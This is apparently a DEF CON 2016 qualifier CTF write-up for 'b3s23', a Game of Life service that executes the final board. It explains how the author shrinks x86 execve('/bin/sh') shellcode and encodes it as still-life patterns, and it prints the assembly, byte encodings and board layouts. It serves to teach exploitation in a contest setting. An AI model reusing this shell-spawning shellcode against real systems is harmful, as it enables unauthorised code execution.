 # DEFCON Qualifier 2016: b3s23

----------
## Challenge details
| Contest        | Challenge     | Category  | Points | Solves |
|:---------------|:--------------|:----------|-------:|-------:|
| DEF CON CTF Quals 2016 | b3s23 | Coding Challenges |    111 | 34 |

**Description:**

> Please enjoy a Game of Life at b3s23_28f1ea914f8c873d232da030d4dd00e8.quals.shallweplayaga.me:2323
>
> [Download](http://download.quals.shallweplayaga.me/28f1ea914f8c873d232da030d4dd00e8/b3s23)

-------

## Write-up

### Background

From [Wikipedia](https://en.wikipedia.org/wiki/Conway%27s_Game_of_Life) we learn that b3s23 is the standard way of symbolizing Conway's Game of Life, where a cell is born if it has exactly 3 neighbors, survives if it has 2 or 3 living neighbors, or dies if neither is true. 

### Binary Details

```bash
$ file b3s23
ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, stripped
```

### Execution
Upon running the binary we receive the following:
```bash
$ docker run -i legitbs/b3s23
Welcome to b3s23.  Enter x,y coordinates.  Enter any other character to run.
```
It is assumed that we need to enter coordinates in the form x,y (e.g. 1,2) followed by any other character in order to set the positions of the initial live cells on the gameboard and iterate the Game of Life. For example, in order to create a a Block, a [still life](https://en.wikipedia.org/wiki/Still_life_(cellular_automaton)), one could enter the following,
```
0,0
0,1
1,0
1,1
a
```
An excerpt of the output would be
```
110000
110000
000000
```
It was observed from the output that the game was iterating 15 times and then the connnection was closed. The output contained a 110x110 gameboard. I verified that if a coordinate less than 0 or greater than 109 was entered the following error would be printed.
```bash
110,0
Illegal Coordinate!
```
While running it locally, a `Segmentation fault (core dumped)` was reported. The initial assumption was that the result of the final iteration from the Game of Life was being executed by the binary somehow.

### Reverse Engineering

(TBD)

### Solution
To solve this challenge I decided to construct an initial Game of Life board such that the final board would contain assembly code that when executed would provide an interactive shell to the client. I decided to use execve system call to get a shell.

I started with the following execve shellcode,
```c
 int execve(const char *path, char *const argv[], char *const envp[]);
```

```assembly
xor    %eax,%eax        ; "\x31\xC0"
push   %eax             ; "\x50"
push   $0x68732f2f      ; "\x68\x2F\x2F\x73\x68"
push   $0x6e69622f      ; "\x68\x2F\x62\x69\x6E"
mov    %esp,%ebx        ; "\x89\xDC"
mov    %dl, 0x0         ; "\xB2\x00" 
push   %eax             ; "\x50"
push   %ebx             ; "\x53"
mov    %esp,%ecx        ; "\x89\xCC"
mov    %al, $0xb        ; "\xB0\x0B"
int    $0x80            ; "\xCD\x80"     
```
This shellcode accomplishes the following,

1. Sets eax to 0 and then pushes the value on the stack to Null-terminate the path
2. Pushes the the path string, "/bin/sh", on the stack
3. Moves the address of the path to ebx
4. Sets edx to 0
5. Pushes eax on the stack again (still 0) in order to Null-terminate the argv array
6. Pushes the address of the path on the stack
7. Moves the adddress of the stack pointer to ecx
8. Moves the system call number for execve into al
9. Invokes the system call

I decided to attempt to encode the shellcode using only still life constructions. This would ensure that the entire construction would remain during the 15 iterations. At 25 bytes, the binary encoding of this shellcode would eventually wrap around the 110 bits of the first line of the game board. Wrapping would complicate the ability to stabilize the still life constructions. Therefore, I decided to try and reduce the size of the shellcode to only 13 bytes. 

By setting a breakpoint at `0xf661e000`, the address of the game board, I would be able to determine the state of the registers prior to executing the shellcode. The result was the following

``` assembly
eax     0x0
ecx     0x0
edx     0x1
ebx     0xf67c7000    ; last coordinate address
esp     0xf6ffb6cc
eip     0xf661e000
```

Since the eax register is already set to 0, I could eliminate the `xor eax,eax` instruction. The next four instructions are all used to get the address null-terminated path "/bin/sh" into `ebx`. The `ebx` register contains the address of the last bit that was set due to sending the program a coordinate. If I could encode the "/bin/sh" on the game board and send the program the coordinates for the first bit of the string, then `ebx` would already contain the address of the path. This would eliminate the need for the four instructions.

The path "/bin/sh" encodes to following binary string

```
00101111 01100010 01101001 01101110 00101111 01110011 01101000 
```
Unfortunately, the first bit is not a 1. Therefore I would need to set the coordinate 1 bit before my string and then increment ebx. I was able to encode "/bin/sh" using the following still life construction.

```
   00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
   00011000000000000000000000000011000110000000011000000000000000000000000000000000000000000000000000000000000000
   00001000000000000000000000000010000010001000010000000000000000000000000000000000000000000000000000000000000000
   00010001011001100101100000000001000100010100000101101100000000000000000000000000000000000000000000000000000000
-->00101111011000100110100101101110001011110111001101101000000000000000000000000000000000000000000000000000000000
   00101000000001000000000110101000001010000000100000000010000000000000000000000000000000000000000000000000000000
   01100100000001100000000000000000011001000001000000000110000000000000000000000000000000000000000000000000000000
   00001100000000000000000000000000000011000001100000000000000000000000000000000000000000000000000000000000000000
   00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
```

With this construction in place the shellcode was simplified to the following 10 bytes,

```assembly
mov    %dl, 0x0         ; "\xB2\x00" 
push   %eax             ; "\x50"
push   %ebx             ; "\x53"
mov    %esp,%ecx        ; "\x89\xCC"
mov    %al, $0xb        ; "\xB0\x0B"
int    $0x80            ; "\xCD\x80"   
```
This results in the following 80-bit binary pattern,

```
1011 0010 0000 0000 0101 0000 0101 0011 1000 1001 1100 1100 1011 0000 0000 1011 1100 1101 1000 0000
```

Unfortunately, I was unable to find a stable construction for `mov %esp, %ecx`. So I had to replace this instruction with

```assembly
push esp
pop ecx
```

resulting in the following shellcode

```assembly
mov    %dl, 0x0         ; "\xB2\x00" 
push   %eax             ; "\x50"
push   %ebx             ; "\x53"
push esp                ; "\x54"
pop ecx                 ; "\x59"
mov    %al, $0xb        ; "\xB0\x0B"
int    $0x80            ; "\xCD\x80" 
```
